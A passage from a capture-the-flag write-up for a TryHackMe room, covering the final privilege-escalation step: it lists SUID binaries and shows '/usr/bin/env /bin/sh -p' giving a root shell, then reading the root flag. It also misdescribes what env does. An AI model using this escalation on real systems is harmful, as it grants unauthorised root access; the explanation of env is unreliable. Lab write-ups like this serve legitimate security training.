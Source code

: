 ```
/snap/core/9066/usr/sbin/pppd
/bin/umount
/bin/fusermount
/bin/ping
/bin/mount
/bin/su
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/env
/usr/bin/gpasswd
/usr/bin/newuidmap
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/traceroute6.iputils
/usr/bin/at
/usr/bin/pkexec

```
So looking through the files I can see /usr/bin/env which is normally ensures python makes sure that your scripts run inside of a virtual environment. Checking on GTFObins we see that we can escalate privilage if open a shell with the SUID permissions (-p) which in this case is root. 

```
namelessone@anonymous:~$ /usr/bin/env /bin/sh -p
/usr/bin/env /bin/sh -p
# whoami
whoami
root
# cat /root/root.txt
cat /root/root.txt
<insert-root-flag-here>
# 
```

Another really great CTF that I enjoyed.

Once again following a methodical planned approach helped me to get the flags.

This room was created by [NamelessOne](https://tryhackme.com/p/Nameless0ne) and one I really enjoyed.

Thanks NamelessOne, looking forward to your next. :)

Regards

Karti

<script src="https://tryhackme.com/badge/65208"></script>


